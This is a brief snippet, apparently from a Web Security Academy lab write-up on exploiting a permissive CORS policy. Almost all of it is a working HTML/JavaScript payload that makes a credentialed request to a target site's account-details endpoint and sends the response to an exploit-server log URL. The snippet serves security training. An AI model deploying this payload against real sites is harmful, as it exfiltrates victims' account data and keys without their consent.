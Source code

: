 PAYLOAD ON EXTERNAL ORIGIN IN CASE TARGET SERVER DOES SUPPORT ANY ORIGIN

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0acd006a0334464d804fe48f00a400e2.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-0ad000ec032a46028091e3d001770095.exploit-server.net/log?key='+this.responseText;
};
</script>
```